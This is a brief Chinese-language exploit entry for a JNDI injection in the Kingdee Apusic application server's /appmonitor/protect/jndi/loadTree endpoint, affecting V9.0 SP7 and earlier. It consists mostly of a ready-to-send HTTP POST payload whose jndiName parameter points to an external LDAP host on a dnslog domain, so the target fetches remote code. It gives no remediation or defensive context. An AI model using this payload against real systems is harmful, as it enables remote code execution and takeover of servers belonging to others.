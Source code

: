 ### **漏洞描述：**

金蝶Apusic应用服务器 loadTree 接口存在jndi注入，攻击者可通过jndi注入远程加载代码获取服务器权限。

### **影响版本：**

V9.0 SP7及以下版本

### **Payload：**

```jsx
POST /appmonitor/protect/jndi/loadTree HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: EASSESSIONID=141476053; NAPRoutID=141476053; sl-session=V1nreK33g2WZuswc79lAOQ==
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
SL-CE-SUID: 73

jndiName=ldap://***.dnslog.pw
```

---
